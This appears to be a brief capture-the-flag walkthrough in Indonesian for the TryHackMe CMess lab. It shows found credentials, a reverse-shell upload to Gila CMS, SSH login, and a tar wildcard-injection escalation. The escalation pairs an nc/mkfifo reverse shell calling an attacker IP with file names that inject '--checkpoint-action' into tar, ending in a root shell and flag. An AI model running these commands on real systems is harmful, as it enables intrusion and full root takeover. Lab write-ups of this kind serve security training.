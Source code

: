 - Enum subdomain dapet dev.cmess.thm
- Dapet email pass buat login (andre@cmess.thm:KPFTN_f2yxe%)
- Upload rev shell di gila cms, revshell.
- UQfsdCB7aAP6 -> nemu di .password dari linpeas. 
- ssh andre@cmess.thm, pass: UQfsdCB7aAP6
- 	```
	echo "mkfifo /tmp/shxgqqn; nc 10.8.15.76 1234 0</tmp/shxgqqn | /bin/sh >/tmp/shxgqqn 2>&1; rm /tmp/shxgqqn" > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1
	tar cf archive.tar *
 	```

 	```
	wuvel@wuvel:~$ nc -lnvp 1234

	listening on [any] 1234 ...
	connect to [10.8.15.76] from (UNKNOWN) [10.10.34.217] 49888
	ls
	archive.tar
	--checkpoint=1
	--checkpoint-action=exec=sh shell.sh
	note
	shell.sh
	whoami
	root
	cat /root/root.txt
	thm{9f85b7fdeb2cf96985bf5761a93546a2}
 	```

